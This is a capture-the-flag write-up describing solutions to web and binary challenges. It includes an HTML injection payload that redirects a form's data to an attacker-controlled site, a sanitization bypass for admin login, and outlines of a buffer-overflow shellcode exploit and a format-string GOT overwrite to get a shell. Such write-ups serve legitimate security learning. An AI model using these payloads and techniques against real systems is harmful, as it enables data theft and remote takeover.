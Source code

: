 ```js
document.querySelector('#form_builder').setHTML(form_html);

...
```
This code in fact injects the input wihout any check in the html source code, then it removes any javascript script or method like `onerror` or `onload` before writing it in the page.<br>
This code is vulnerable because if I send this payload as a field
```html
"><input type="submit" formaction="our site" id="pwned"><label name="
```
I can redirect the form data from the cookie store to my site and then read the flag that the admin wrote in the title field.

### MCTree
This challenge was really easy but, I was tired (just a lot of skill issue) and I couldn't understand the vulnerability during the CTF (sorry ZenHack) but anyway, the challenge didn't have any source code to download. In fact it was only a site where you could register, login and, if after the login you had the admin username, you could achive the flag.
After a few attempts I saw that the challenge always removed any character like `{}<>[]'"` so the payload was to send a username like `{admin` so that the site could accept our request because the username was different from `admin` and after a sanitizing our username was `admin` anyway. And that's it lol :).

## Binary 🐧
### Diary
This challenge was really nice and easy because it had RWX segments in it, no PIE and also hadn't any canary.
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
It had an important funciton `vuln` which only read 1024 chars in a 256 bytes long buffer, where I could perform an overflow to change the return pointer to another address
```c
fgets((char *)&local_108,0x400,stdin);
``` 
After using `ropgadgets` to find a useful code, I found a nice instruction
```nasm
call rax
```
so the only thing that I had to do was to make a shellcode using the `shellcraft` module of pwntools to create a shellcode and then call it by changing the return pointer to the shellcode address.

### Shello-World
This challenge is exactly the same of `Diary`, but in this one there is no buffer overflow to perform, because now the `vuln` function is the following
```C
fgets((char *)&local_108,0x100,stdin);
printf("Hello, ");
printf((char *)&local_108);
putchar(10); // (chr)(10) == '\n' => true
```
This is pretty different from diary but still vulnerable as there's a format string vulnerability because the source file calls a `printf` without set any format string which means that we can use the `fmtstr_payload` function from pwntools to write a payload which replaces the address of the function `exit` from the GOT with the address of the `win` function that will open a shell on the remote machine.
